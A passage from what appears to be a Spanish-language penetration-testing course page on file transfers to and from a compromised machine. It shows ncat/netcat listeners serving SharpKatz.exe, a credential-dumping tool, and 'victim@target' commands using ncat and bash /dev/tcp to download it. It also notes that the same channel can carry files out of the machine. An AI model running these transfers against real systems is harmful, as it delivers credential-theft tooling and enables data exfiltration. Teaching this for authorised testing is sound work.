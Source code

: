 ```r
# Example using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Máquina Comprometida Conectándose a Ncat para Recibir el Archivo

```r
victim@target:~$ # Example using Ncat
victim@target:~$ ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

Si no tenemos Netcat o Ncat en nuestra máquina comprometida, Bash soporta operaciones de lectura/escritura en un pseudo-dispositivo archivo [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Escribir en este archivo en particular hace que Bash abra una conexión TCP a `host:port`, y esta característica puede ser utilizada para transferencias de archivos.

### NetCat - Enviando Archivo como Input a Netcat

```r
# Example using Original Netcat
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Ncat - Enviando Archivo como Input a Netcat

```r
# Example using Ncat
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Máquina Comprometida Conectándose a Netcat Usando /dev/tcp para Recibir el Archivo

```r
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Nota:** La misma operación puede ser utilizada para transferir archivos desde la máquina comprometida a nuestro Pwnbox.

---

## PowerShell Session File Transfer

Ya hemos hablado de hacer transferencias de archivos con PowerShell, pero puede haber escenarios en los que HTTP, HTTPS o SMB no estén disponibles. Si ese es el caso, podemos usar [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), también conocido como WinRM, para realizar operaciones de transferencia de archivos.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) nos permite ejecutar scripts o comandos en una computadora remota usando sesiones de PowerShell. Los administradores comúnmente usan PowerShell Remoting para gestionar computadoras remotas en una red, y nosotros también podemos usarlo para operaciones de transferencia de archivos. Por defecto, habilitar PowerShell remoting crea tanto un listener HTTP como HTTPS. Los listeners funcionan en los puertos por defecto TCP/5985 para HTTP y TCP/5986 para HTTPS.
